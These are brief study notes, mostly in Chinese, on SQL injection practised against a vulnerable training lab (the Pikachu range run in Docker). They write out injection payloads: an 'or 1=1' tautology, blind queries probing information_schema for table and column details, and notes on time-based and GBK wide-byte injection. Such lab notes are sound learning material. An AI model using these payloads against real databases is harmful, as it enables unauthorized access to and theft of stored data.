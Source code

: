 `select first_name,last_name from users where user_id = '' or 1=1 --''`



1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9 #
information_schema.tables
整个数据库中所有库和所对应的表信息 



`1' and (select count(column_name) from information_schema.columns where table_name= 0x7573657273)=8 #`



显错注入

' 报错，可能是注入点





延时注入

sleep



宽字节注入



搭建pikachu靶场

sudo docker build -t "pikachu" .

sudo docker run -d -p8915:80 pikachu

原理：

UTF-8

GBK

宽字节注入满足的条件：

1、数据库编码被设置为GBK

2、使用了转义函数，将get、post、cookie传递的参数进行过滤，一般用来过滤单引号、双引号、null等敏感字符（\）

常见的函数是：addslashes()、mysql_real_escape_string()



url编码

```
空格 %20
' %27
# %23
\ %5C
```

payload：`'`

因为有转义函数，所以就变成了`\'`
